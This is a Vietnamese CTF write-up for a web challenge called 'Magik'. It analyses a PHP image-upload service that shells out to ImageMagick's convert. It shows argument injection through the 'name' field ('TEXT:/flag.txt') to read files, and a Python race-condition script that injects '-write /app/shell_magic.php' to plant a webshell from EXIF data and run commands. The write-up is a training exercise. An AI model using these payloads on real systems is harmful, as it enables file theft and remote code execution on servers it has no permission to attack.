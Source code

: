 ```yaml
---
title: Magik

---
```


# Magik
- Author : Tiwza
## Overview
![{BBFD61B4-A254-4DB8-9F65-A1E5CC5EEB72}](https://hackmd.io/_uploads/H1KCSzoRxg.png)
### Cầu trúc của bài này 
```code=
magik/
└── app/
        ├── index.php
   ├── convert.sh
   ├── docker-compose.yml
   ├── Dockerfile
   ├── flags.txt
   └── readflag.c
```
### Lần lượt đọc từng file 
1. `Dockerfile`
```
- Đọc `Dockerfile` để hiểu rõ hơn
```code=
COPY readflag.c /readflag.c
RUN gcc /readflag.c -o /readflag
RUN chmod u+s /readflag
RUN rm -f /readflag.c
```
=> Đặt `SUID` lên `/readflag` nên user ở ` www-data` không thể đọc 
```code
COPY /flags.txt /flag.txt
RUN chmod 400 /flag.txt
```
=> Chỉ root mới đọc được flag 
```code
# CHALLENGE
WORKDIR /app
COPY app/ /app

COPY convert.sh /opt/convert.sh
RUN chmod +x /opt/convert.sh

RUN chown -R www-data:www-data /app
```
=> Đặt workdir ở `/app`
=> Cấp quyền thực thi cho `convert.sh`
=> Web server chỉ có quyền đọc và ghi theo owner 
```code
USER www-data
CMD ["php", "-S", "0.0.0.0:8000", "-t", "/app"]
```
=> user không có quyền root => đồng nghĩa với việc không đọc được flag 
2. `convert.sh`
```code
convert $1 -resize 64x64 -background none -gravity center -extent 64x64 $2
```
=> như ta thấy `$1` không nằm trong single quotation từ đó dẫn đến shell argument injection 
=> Khi đó ta có thể thêm vào nhiều input thay vì 1 ví dụ `convert arg1 arg2 -resize …`
```code
find . -type f -exec exiftool -overwrite_original -all= {} + >/dev/null 2>&1 || true
```
=> xóa hết các file có chứa `metadata/exif`
3. `readflag.c`
```code=
// set uid 0 and print flag.txt

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    system("cat /flag.txt");
    return 0;
}
```
=> Đọc được file flag 
=> như vậy từ `Dockerfile` ta có thể thấy không thể đọc flag với quyền `user` tuy nhiên ở file này `flag.c` lại có thể đọc được flag => Làm cách nào đó để trigger được file này thì sẽ in được ra flag 
4. `app/index.php`
```code
<?php


if(isset($_FILES['img']) && isset($_POST['name'])) {
    $proc = proc_open(
        $cmd = [
            '/opt/convert.sh',
            $_FILES['img']['tmp_name'],
            $outputName = 'static/'.$_POST['name'].'.png'
        ],
        [],
        $pipes
    );
    proc_close($proc);

} else {
    highlight_file(__FILE__);
}

```
=> hai tham số  `$_FILES['img']['tmp_name']` và `static/'.$_POST['name'].'.png` được lấy ra và đưa vào command trong file `convert.sh`

5. `docker-compose.yml`
```code
services:
  frontend:
    build: .
    ports:
      - "8000:8000"
```
=> service mở dịch vụ ở port `8080`
## Solve 
![{9381F73E-CA46-497D-8A3E-8BB7C2D445C8}](https://hackmd.io/_uploads/HynO-4jCxx.png)

- Ta có thể thấy ở trên `untrusted data` đó là `$_POST['name']`
- Tuy nhiên sẽ không CMDi được ở đây bởi câu lệnh đã được chuyển thành mảng và mảng thì đối với php thì :
    -  ![{E4561D11-AD1C-4583-AEC2-60EFCBDD48BB}](https://hackmd.io/_uploads/H1TPGPoCgx.png)
- Một vài research dựa vào tên chall 
    - ![{3F0A29D5-F274-4654-80E0-747BAB0AE0B2}](https://hackmd.io/_uploads/BJ8TZ4jClg.png)
- [Theo bài viết thì nếu `Argument Injection` được thì có thể đọc file bất kì nhờ vào việc chèn `TEXT:file` và kết quả sẽ trả về ở nội dung trong file](https://book.jorianwoltjer.com/web/server-side/imagemagick#argument-injection)
- Auke giờ hãy test thử đọc `etc/passwd`
```code
PS C:\Users\ADMIN\Desktop\Kep-moving\My_World\CTF\2025\MelC0n\magik> curl.exe -X POST "http://127.0.0.1:8000/" `
>>   -F "name=xyz TEXT:/flag.txt" `
>>   -F "img=@payload.png"
```
- Kết quả nhận được 
    - ![{B690AF6A-71CE-4901-9497-D60095FB1BB5}](https://hackmd.io/_uploads/H1zonDsCel.png)
    - ![{3DB0A113-2C6B-4E6A-823B-055881C108CF}](https://hackmd.io/_uploads/HygR2Ps0xe.png)
    - ![{8566EBCC-D1D0-44A3-B9FC-ECCE58C548D9}](https://hackmd.io/_uploads/By7nnwiCxl.png)
=> [Và đó là Local File Inclusion](https://www.invicti.com/learn/local-file-inclusion-lfi/)
- Thử với flag 
    - ![image](https://hackmd.io/_uploads/S1PbaPiClx.png) 
=> Không có Permission 

- Như ở trên đã trình bày chỉ có thể trigger `/readflag` mới lấy được flag => đồng nghĩa với việc phải RCE
- Upload ảnh mà để RCE thì chỉ có thể [POLYGLOT](https://d47sec.wordpress.com/2021/09/02/tim-hieu-ve-polyglot-file/)
- Dùng `exiftool ` để gen ra ảnh nào 
    - ![{32D90D13-E70B-4995-A630-C3CC747245A2}](https://hackmd.io/_uploads/rkeYl_iRel.png)
    - ![{8D03CC8E-162C-472B-B0DC-BA8F14E3B030}](https://hackmd.io/_uploads/B1K_9OiRgl.png)
=> Như vậy payload đã bị xóa hết các file có chứa exif (Phần EXIF này có thể bị lợi dụng để giấu mã độc hoặc payload (ví dụ: PHP code) mà trình xem ảnh bình thường không hiển thị, nhưng server có thể đọc được)
- Vậy làm thế nào để không bị xóa exif
=> RACE CONDITIONNN
- Trình tự sẽ như sau 
    - Upload ảnh chứa webshell như đã trình bày ở trên 
    - Request đến và thực thi payload trước khi nó bị xóa bởi `convert.sh`
```code
import requests
import threading
import sys

URL = ""
CMD = ""

def request_to_upload_file():
	files = {
		'img' : open('a.jpeg', 'rb')
	}
	data = {
		'name' : 'haha -write /app/shell_magic.php a'
	}
	requests.post(URL, data=data, files=files)

def request_to_access_file():
	res = requests.get(f"{URL}/shell_magic.php?cmd={CMD}")

	if res.ok:
		print(res.text)
	else:
		print(f"Failed: {res.status_code}")

def main():
	global URL
	global CMD

	if len(sys.argv) != 3:
		print("Usage: python script.py <URL> <CMD>")
		return

	URL = sys.argv[1]
	CMD = sys.argv[2]

	threading.Thread(target=request_to_upload_file).start()
	threading.Thread(target=request_to_access_file).start()
	pass


if __name__ == "__main__":
	main()
```
![{4B973A42-E82D-41B2-88AC-CE20E33DA1F1}](https://hackmd.io/_uploads/SJYn3ui0lx.png)

 


## Conclusion 

- Shell argument injection -> đọc được passwd và chỉ có quyền user 
- POLYGLOT -> trigger `/readflag` nhưng bị `convert.sh` xóa mất payload nằm trong exif
- POLYGLOT + Race Condition để đọc trigger ``/readflag` trước khi payload bị `convert.sh` xóa 

